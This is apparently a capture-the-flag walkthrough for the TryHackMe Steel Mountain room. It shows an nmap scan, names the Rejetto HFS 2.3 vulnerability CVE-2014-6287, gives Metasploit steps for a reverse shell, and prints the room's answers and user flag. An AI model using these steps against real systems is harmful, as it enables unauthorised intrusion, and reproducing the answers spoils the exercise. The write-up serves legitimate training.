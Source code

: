 # Steel Moutain Wlakthrough
### Link
- https://tryhackme.com/room/steelmountain
------------------------
### Task 1 : Introduction
- Who is the employee of the month?
    - Check the source code of the web page
    - [Steel_Moutain_1.png](picture: https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_1.png)
    - **Answer** : Bill Harper
------------------------
### Task 2 : Initial Access
- Scan the machine with nmap. What is the other port running a web server on?
    - sudo nmap -sC -sV -oN ./nmap_steelmountain_result 10.10.117.67
    - [Steel_Moutain_2.png](picture: https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_2.png) , [Steel_Moutain_3.png](picture: https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_3.png)
    - **Answer** : 8080
- Take a look at the other web server. What file server is running?
    - From nmap scan, we know the port 8080 is used for another file server
        - Connect to [IP]:8080
        - Under Server Information, you have a link "HttpFileServer 2.3"
        - Click on this link and you are redirected to http://www.rejetto.com/hfs/
        - [Steel_Moutain_4.png](picture: https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_4.png)
        - **Answer**  : rejetto http file server
- What is the CVE number to exploit this file server?
    - Visit https://www.exploit-db.com/search
    - Search exploit for rejetto http file server 2.3
    - [Steel_Moutain_5.png](picture: https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_5.png) , [Steel_Moutain_6.png](picture: https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_6.png)
    - **Answer** : 2014-6287
- Use Metasploit to get an initial shell. What is the user flag?
    - Start metasploit
        msfconsole
    - find the exploit
        search exploit rejetto
        [Steel_Moutain_7.png](picture: https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_7.png)
    - Select the exploit
        use [payload number]
        [Steel_Moutain_8.png](picture: https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_8.png)
    - Check the options
        options
        [Steel_Moutain_9.png](picture: https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_9.png)
    - Indicate the remote hosts ip and port (This server run on port 8080)
        set RHOSTS [IP]
        set RPORT [port]
        [Steel_Moutain_10.png](picture: https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_10.png)
    - Chenge the Local IP with your IP
        set LHOST [IP]
    - Execute
        run
        [Steel_Moutain_11.png](picture: https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_11.png)
    - Remeber, the machine is a Windows machine.Not all  Linux command work ^_^
    - Move to C:\Users\bill\Desktop
    - Open user.txt
    [Steel_Moutain_12.png](picture: https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_12.png)
    - **Answer** : ??b04763b6fcf51fcd7c13abc7db4fd365
